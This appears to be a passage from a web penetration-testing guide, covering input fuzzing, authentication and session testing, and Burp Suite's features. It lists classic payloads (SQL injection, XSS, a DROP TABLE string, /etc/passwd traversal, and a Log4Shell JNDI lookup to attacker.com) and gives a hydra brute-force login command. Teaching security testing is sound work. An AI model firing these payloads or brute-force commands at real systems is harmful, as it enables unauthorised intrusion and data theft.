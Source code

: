 #### Vulnerability Assessment Phase

**1. Input Validation Testing**
```python
# Fuzzing inputs
payloads = [
    "' OR '1'='1",
    "<script>alert('XSS')</script>",
    "'; DROP TABLE users--",
    "../../../etc/passwd",
    "${jndi:ldap://attacker.com/exploit}"
]

for payload in payloads:
    test_input(payload)
```

**2. Authentication Testing**
```bash
# Brute force login
hydra -l admin -P passwords.txt http-post-form "/login:username=^USER^&password=^PASS^:Invalid"

# Session analysis
burp_session_analyzer

# Password reset testing
curl -X POST http://example.com/password-reset -d "email=victim@example.com"
```

**3. Session Management Testing**
```python
# Session token analysis
def analyze_session_token(token):
    entropy = calculate_entropy(token)
    predictability = check_predictability(token)
    length = len(token)
    
    return {
        'entropy': entropy,
        'predictable': predictability,
        'length': length
    }
```

### Web Security Tools - Detailed Analysis

#### Burp Suite Professional

**Key Features:**
1. **Proxy**: Intercept and modify HTTP/HTTPS traffic
2. **Spider**: Automated application crawling
3. **Scanner**: Automated vulnerability detection
4. **Intruder**: Advanced payload delivery
5. **Repeater**: Manual request manipulation
6. **Sequencer**: Session token analysis
7. **Decoder**: Data encoding/decoding utilities
8. **Comparer**: Response comparison tool
